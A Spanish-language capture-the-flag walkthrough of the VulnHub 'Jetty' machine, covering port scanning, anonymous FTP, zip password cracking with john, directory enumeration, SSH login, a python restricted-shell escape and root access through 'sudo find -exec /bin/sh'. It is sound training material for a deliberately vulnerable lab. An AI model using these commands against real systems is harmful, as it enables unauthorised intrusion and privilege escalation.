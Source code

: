 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Jetty VulnHub

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-24 05:41 EDT
Nmap scan report for 192.168.5.201
Host is up (0.00070s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.5.175
|      Logged in as ftp
|      TYPE: ASCII
|      Session bandwidth limit in byte/s is 2048000
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rwxrwxrwx    1 ftp      ftp           306 Oct 06  2018 README.txt [NSE: writeable]
|_-rwxrwxrwx    1 ftp      ftp           226 Oct 06  2018 sshpass.zip [NSE: writeable]
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-robots.txt: 4 disallowed entries 
|_/dir/ /passwords/ /facebook_photos /admin/secret
65507/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a0:5b:e6:bb:fd:f6:02:ec:f0:bd:a1:be:b8:97:84:ba (RSA)
|   256 e9:d3:50:26:7e:5a:c2:a0:b0:89:c9:f4:64:d8:aa:b0 (ECDSA)
|_  256 2e:67:c1:af:cc:22:5c:59:15:5f:97:f7:2e:1b:e0:93 (ED25519)
MAC Address: 00:0C:29:39:5C:73 (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.10 seconds
```

### ftp

```shell
ftp anonymous@<IP>
```

Nos encontraremos con 2 archivos...

```shell
get README.txt

get sshpass.zip
```

El archivo `README.txt` contiene lo siguiente...

```
Hi Henry, here you have your ssh's password. As you can see the file is encrypted with the default company's password. 
Please, once you have read this file, run the following command on your computer to close the FTP server on your side. 
IT IS VERY IMPORTANT!! CMD: service ftp stop. 

Regards, Michael.
```

No da una pista de que el `.zip` esta protegido por una contraseña y contiene la contraseña del `ssh` del usuario `Henry`...

Por lo que haremos lo siguiente...

```shell
zip2john sshpass.zip > hash
```

Info:

```
ver 1.0 efh 5455 efh 7875 sshpass.zip/sshpass.txt PKZIP Encr: 2b chk, TS_chk, cmplen=38, decmplen=26, crc=CA21C815 ts=45E9 cs=45e9 type=0
```

```shell
john --wordlist=<WORDLIST> hash
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
seahorse!        (sshpass.zip/sshpass.txt)     
1g 0:00:00:00 DONE (2024-06-24 05:47) 1.612g/s 2114Kp/s 2114Kc/s 2114KC/s sharda16..saytown
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Veremos la contraseña que decomprime el `.zip` del `ssh`...

```shell
unzip sshpass.zip
```

Y metemos la contraseña `seahorse!`...

Nos dara un archivo llamado `sshpass.txt` que contiene lo siguiente...

```
Squ1d4r3Th3B3$t0fTh3W0rLd
```

### Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt,md -t 100 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.5.201/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              md,html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess.md         (Status: 403) [Size: 300]
/.htaccess.html       (Status: 403) [Size: 302]
/.htaccess.php        (Status: 403) [Size: 301]
/.htaccess.txt        (Status: 403) [Size: 301]
/.htaccess            (Status: 403) [Size: 297]
/.htpasswd            (Status: 403) [Size: 297]
/.htpasswd.php        (Status: 403) [Size: 301]
/.htpasswd.html       (Status: 403) [Size: 302]
/.htpasswd.txt        (Status: 403) [Size: 301]
/.htpasswd.md         (Status: 403) [Size: 300]
/index.html           (Status: 200) [Size: 23]
/recoverpassword.txt  (Status: 200) [Size: 1029]
/robots.txt           (Status: 200) [Size: 104]
/robots.txt           (Status: 200) [Size: 104]
/server-status        (Status: 403) [Size: 301]
Progress: 102345 / 102350 (100.00%)
===============================================================
Finished
===============================================================
```

Pero poca cosa, si vamos a la descripcion de VulnHub en la que nos detalla el sistema, veremos lo siguiente...

```
Extra information:

- The suspicious username is Squiddie.
- He was in charge of the ticket selling for the Aquarium.
- Ethernet settings set to NAT with DHCP enabled.
- You should find the IP in your VLAN.
```

Y si probamos el nombre de usuario `squiddie` en el `ssh` con la contraseña encontrada anteriormente, veremos que es esa...

```
User = squiddie
Password = Squ1d4r3Th3B3$t0fTh3W0rLd
```

```shell
ssh squiddie@<IP> -p 65507
```

Una vez dentro veremos que tenemos restringido casi todo, pero si hacemos lo siguiente...

```shell
help
```

Info:

```
cd  clear  exit  help  history  lpath  ls  lsudo  pwd  python  whoami
```

Vemos que solo podemos hacer esos y el que nos interesa es el de `python`...

```shell
python
```

```python
import os
os.system('/bin/bash')
```

Poniendo eso dentro del entorno de `python` nos dara una shell de `bash` por lo que ya habriamos escapado y podremos hacer cualquier comando sin estar de forma restringida...

Leeremos la flag...

> user.txt (flag1)

```
dd69f649f3e5159ddd10b83b56b2dda2
```

Si hacemos `sudo -l` veremos lo siguiente...

```
Matching Defaults entries for squiddie on jetty:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User squiddie may run the following commands on jetty:
    (ALL) NOPASSWD: /usr/bin/find
```

Veremos que podemos hacer `find` como `root` por lo que haremos lo siguiente para ser `root`...

```shell
sudo find . -exec /bin/sh \; -quit
```

Y con esto ya seriamos `root`, por lo que leeremos la flag...

> proof.txt (flag2)

```
136d05d01c8af5d3e3520d2c270f91f1
```
